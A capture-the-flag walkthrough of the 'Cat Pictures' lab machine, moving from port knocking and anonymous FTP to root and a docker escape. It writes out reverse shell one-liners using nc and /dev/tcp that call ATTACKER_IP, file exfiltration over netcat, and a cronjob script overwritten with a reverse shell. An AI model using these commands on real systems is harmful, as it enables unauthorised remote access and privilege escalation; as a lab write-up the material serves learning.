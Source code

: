 # Cat Pictures

##### Difficulty: [ Easy ]

**Tags:** `Linux`,  `nmap`,  `port knocking`,  `ftp`,  `reverse shell`,  `Binary Ninja`,  `ssh private key`,  `docker`,  `cronjob`

---

##### Written: 30/11/2021

##### IP address: 10.10.21.0

---

### [ Flag 1 ]

As usual, let's run an **nmap** scan on the target to enumerate the services that it's running.

```
sudo nmap -sC -sV -vv -T4 10.10.21.0
```

From the results, we find out that there are three open ports. There are also two ports which seem to be hidden behind a firewall.

```
21/tcp   filtered ftp
22/tcp   open     ssh
2375/tcp filtered docker
4420/tcp open     nvm-express?
8080/tcp open http-proxy
```

Looks like we have access to a SSH server, a HTTP Web server and an unknown service running on port 4420. The FTP server is currently inaccessible by us. There is also a docker service running on port 2375.

<br>

Let's take a look at the HTTP Web server:

<img style="float: left;" src="screenshots/screenshot1.png">

We have a forum page that is built on **phpBB**. Before we do our happy-path enumeration, let's run a **Gobuster** directory scan to see if we can find any hidden directories.

```
gobuster dir -u http://10.10.21.0:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

I let the scan run for awhile, and it did find many different directories and files, but they were all ultimately of no use to us. 

<br>

Let's now check out the post on the webpage.

<img style="float: left;" src="screenshots/screenshot2.png">

We have a post titled 'Post cat pictures here!'. We also have an interesting message: 

`Knock knock! Magic numbers: 1111, 2222, 3333, 4444`

Hmmmm.... '**Knock knock**' and numbers that look like port numbers.... Could this be a **port knocking** sequence?

---

*Port Knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s).*

---

Perhaps if we were to visit these ports in sequence, we will be able to access the two services that are currently hidden behind the firewall! Let's try it out by visiting these ports in order:

```
telnet 10.10.21.0 1111
telnet 10.10.21.0 2222
telnet 10.10.21.0 3333
telnet 10.10.21.0 4444
```

Once we are done, we can run an nmap scan on the target again:

<img style="float: left;" src="screenshots/screenshot3.png">

Nice! Access to the FTP server has been unlocked. 

From the nmap scan, we also know that the FTP server has **anonymous login** enabled. This means that we can log into it without supplying a password. Let's login and grab the '**note.txt**' file inside.

<img style="float: left;" src="screenshots/screenshot4.png">

<br>

**Contents of note.txt:**

<img style="float: left;" src="screenshots/screenshot5.png">

Nice, we now have a password - **sardinethecat**

The unknown service running on port 4420 turned out to be an internal shell service. Let's log into it with our newfound password.

```
nc 10.10.21.0 4420
```

<img style="float: left;" src="screenshots/screenshot6.png">

And we're in! 

<br>

The first thing that I noticed was that the machine was very limited in terms of the commands that it could run. It couldn't run basic commands like `cd`, `whoami` and many others.  In fact, if we look at the **/bin** directory, we can see that there are only a handful of programs that are installed.

<img style="float: left;" src="screenshots/screenshot7.png">

With that in mind, let's take a look around.

<br>

<img style="float: left;" src="screenshots/screenshot8.png">

I found a binary called **runme** in the home directory of the **catlover** user. Let's try to run it.

<img style="float: left;" src="screenshots/screenshot9.png">

Welp, looks like we need to find a way to upgrade our shell. Let's try opening a reverse shell back into our machine.

I tried a few reverse shell payloads from **PayloadsAllTheThings** (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), before finding one that worked:

``` 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```

<img style="float: left;" src="screenshots/screenshot10.png">

And we're in yet again! Now we can run the `runme` binary:

<img style="float: left;" src="screenshots/screenshot11.png">

We need another password. Unfortunately, '**sardinethecat**' did not work.

My next thought was to download the binary onto my local machine so that I could analyze it. We can use `nc` (as it is installed on the target machine) and some basic piping to do so:

```
// on local machine
nc -lvnp 5555 > runme

// on target machine
nc ATTACKER_IP PORT < /home/catlover/runme
```

<br>

With the binary now on my local machine, I passed it to **Binary Ninja** (https://cloud.binary.ninja/) to reverse engineer the code.

<img style="float: left;" src="screenshots/screenshot12.png">

Once the reverse engineering is complete, I looked at the main() function. As we can see, the password is actually exposed in the code - **rebecca**

Let's go back into the target machine and run `runme` again.

<img style="float: left;" src="screenshots/screenshot13.png">

We now have a **private ssh key** in catlover's home directory:

<img style="float: left;" src="screenshots/screenshot14.png">

We can simply cat out the contents of the key, copy it over to a file on our local machine, and use it to log into ssh! *(make sure permissions of the key is either 400 or 600)*

<img style="float: left;" src="screenshots/screenshot15.png">

Great, we are now logged in as the **root** user!

<img style="float: left;" src="screenshots/screenshot16.png">

We can grab the first flag in the **/root** directory.

---

### [ Flag 2 ]

It seem like the flag that we found is not actually the final root flag. I tried using the `find` command to search for the other flag:

```
find / -iname '*flag*' 2>/dev/null
```

However, I was unable to find flag 2.

Remember that **docker** is running on port 2375? Perhaps we are currently in a docker container? We can verify this by looking for a **.dockerenv** file in the root ('/') directory.

<img style="float: left;" src="screenshots/screenshot17.png">

The file is indeed present, which confirms that we are in a docker container! Now we need to find a way to break out of the container. From past experiences, this is normally done through a script that is run as a **cronjob** by the root user outside of the container. Let's look around the machine to see if we can find such a script.

<br>

One place I looked was the **.bash_history** file:

<img style="float: left;" src="screenshots/screenshot18.png">

There's an interesting script called **clean.sh** located in **/opt/clean**. Let's check it out.

<img style="float: left;" src="screenshots/screenshot19.png">

Seems like the script is a cleaner script that removes all files in the **/tmp** directory. It would make sense for such a script to be run as a cronjob, so perhaps this is our ticket out of the docker container.

We also have write permissions to the script, so let's try to replace it with a reverse shell script:

```
echo '/bin/bash -l > /dev/tcp/ATTACKER_IP/PORT 0<&1 2>&1' > clean.sh
```

<img style="float: left;" src="screenshots/screenshot20.png">

After a few minutes, the reverse shell was opened and I was logged into the actual target machine as the root user.

<img style="float: left;" src="screenshots/screenshot21.png">

The final flag can be found in the **/root** directory.
